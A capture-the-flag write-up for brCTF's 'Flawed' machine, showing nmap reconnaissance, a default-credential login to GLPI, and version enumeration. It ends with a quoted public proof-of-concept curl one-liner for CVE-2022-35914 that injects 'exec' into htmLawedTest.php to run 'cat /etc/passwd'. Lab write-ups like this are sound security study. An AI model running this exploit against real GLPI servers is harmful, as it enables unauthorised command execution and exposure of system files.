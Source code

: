 # Flawed machine from brCTF

## Information Gathering/Reconnaissance
As is customary, we initiate our preferred network scanning tool, Nmap, to conduct initial reconnaissance. Our scan reveals that port 80, which is typically associated with HTTP and port 22, are accessible. <br>
`nmap -sC -sV -oN flawed.nmap 10.0.160.157`
```
Nmap scan report for 10.0.160.157
Host is up (0.23s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u2 (protocol 2.0)
80/tcp open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Authentication - GLPI
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

In the second phase of our reconnaissance, we proceed to examine the application hosted on port 80 by accessing it through our web browser. To our surprise, we are welcomed with a login page. Quite intriguing!
![GLPI Login](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/glpi-login.png "a title")

After a brief research on google we discovered default credentials for GLPI which we can try on out target.
![google glpi logins](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/glpi-default-creds.png "a title")

We now attempt to login to GLPI and viola!!<br>
From there we move on with out recon and attempt to find the version of GLPI running. Hopefully we can find publicly available exploits.
![glpi logged in](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/checking-glpi-version.png "a title")
The version of GLPI can be seen in the photo below.
![glpi version enum](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/glpi-version.png "a title")

Now that we know the version running, we can google it to find avaiable exploits and shortly after, we find one on github from [Orange-CyberDefense](https://github.com/Orange-Cyberdefense/CVE-repository/blob/master/PoCs/POC_2022-35914.sh)

```curl -s -d 'sid=foo&hhook=exec&text=cat /etc/passwd' -b 'sid=foo' http://localhost/vendor/htmlawed/htmlawed/htmLawedTest.php |egrep '\&nbsp; \[[0-9]+\] =\&gt;'| sed -E 's/\&nbsp; \[[0-9]+\] =\&gt; (.*)<br \/>/\1/'```
